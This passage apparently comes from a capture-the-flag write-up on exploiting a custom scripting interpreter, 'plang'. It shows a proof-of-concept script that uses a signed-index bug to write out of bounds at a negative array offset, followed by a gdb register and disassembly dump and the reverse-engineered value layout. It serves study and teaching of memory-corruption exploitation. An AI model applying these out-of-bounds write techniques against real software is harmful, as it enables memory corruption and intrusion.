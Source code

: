 OOB! It seems that it's the `signness` problem: `0x80000000($RSI)` is `-2147483648` in int. We can confirm this by reverse engineering the `plang` binary.

However, when I tried `b[0xfffffffff]=1` it still crashed as the origin poc. By debugging I found that any interger in `0x80000000-0xffffffff` gets the same result: the parser just return `0x80000000` as the index.

Luckily, with a few trials, I figured out a way to bypass it: use an expression.

```
var a = "This is a PoC!"
System.print(a)
var b = [1, 2, 3]
b[0-0x100] = 0x123
```

This successfully overwrites the memory at offset `-0x100` of `b`! 
```
[----------------------------------registers-----------------------------------]
RAX: 0x4 
RBX: 0x555555788cf0 --> 0xa ('\n')
RCX: 0x555555787df0 --> 0x0 
RDX: 0x4072300000000000 ('')
RSI: 0xffffff00 
RDI: 0x555555773260 --> 0x555555773f10 --> 0x550000000000 ('')
RBP: 0x7fffffffd890 --> 0x7fffffffd9b0 --> 0x7fffffffd9f0 --> 0x7fffffffda40 --> 0x7fffffffda60 --> 0x55555556b090 (push   r15)
RSP: 0x7fffffffd870 --> 0x555555788d60 --> 0x555500000005 
RIP: 0x5555555644a6 (mov    QWORD PTR [rcx],rax)
R8 : 0x7ffff7a31c40 --> 0x0 
R9 : 0x0 
R10: 0x555555773010 --> 0x700000004000101 
R11: 0x0 
R12: 0x555555788c2f --> 0x3d37010e 
R13: 0x555555788c80 --> 0x555555788c00 --> 0x1e000f0b00080e 
R14: 0x555555788d60 --> 0x555500000005 
R15: 0x555555788560 --> 0x7f0000000007
EFLAGS: 0x287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x55555556449a:	mov    rax,QWORD PTR [rbp-0x20]
   0x55555556449e:	mov    rdx,QWORD PTR [rax+0x28]
   0x5555555644a2:	mov    rax,QWORD PTR [rax+0x20]
=> 0x5555555644a6:	mov    QWORD PTR [rcx],rax
   0x5555555644a9:	mov    QWORD PTR [rcx+0x8],rdx
   0x5555555644ad:	mov    rcx,QWORD PTR [rbp-0x20]
   0x5555555644b1:	mov    rax,QWORD PTR [rbp-0x20]
   0x5555555644b5:	mov    rdx,QWORD PTR [rax+0x28]
```

But wait, what content are we writing to the memory? `$RAX==0x4` and `$RDX==0x4072300000000000` ?  I thought I was writing `0x123` :(

OK, through a deeper analysis, we found that every value in the `plang` is represented as an object with type.
```cpp
struct PlangObj{
    long type; // if the obj is a pure double, type is 4, otherwise 5
    union{
        double value;
        obj_ptr* obj;
    };
};
```
Now we know what `0x4072300000000000` is : it is `0x123` in `double`. The second field is an union. If an obj other than double is stored in the array, its pointer is actually stored. Well , it makes sense.
